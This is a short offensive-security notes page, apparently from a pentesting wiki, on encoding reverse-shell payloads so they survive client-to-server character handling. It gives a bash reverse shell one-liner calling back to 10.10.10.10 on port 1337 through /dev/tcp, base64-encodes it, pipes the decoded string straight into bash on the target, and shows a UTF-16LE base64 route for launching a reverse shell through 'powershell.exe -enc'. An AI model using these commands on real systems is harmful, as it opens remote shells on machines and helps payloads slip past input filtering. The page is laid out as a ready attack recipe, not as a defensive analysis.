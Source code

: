 # Encoded Shell Spawning

Sometimes using some [[TTY-Spawning]] tool is not enough either how characters are handled at any point client-side to server-side require encoding to be decoded back to executable form. The only assumption made is the the attacker machine is some Linux Distribution with default binaries and a encoding binary installed.

## Base64

Covert to base64 with 0 column wrapping to prevent multi-line base64 string
```bash
# Create payload
echo "/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.10.10/1337 <&1'" | base64 -w0
# -w0 means wrap 0 columns 
```

Decode Payload on target machine:

Linux
```bash
echo "$base64EncodedString" | base64 -d | /bin/bash
```

For Windows convert a file contain your reverse shell
```bash
iconv -f ASCII -t UTF-16LE $reverseshell.txt | base64 | tr -d "\n"
```

```powershell
powershell.exe -enc outputFromTheCommandAbove
```
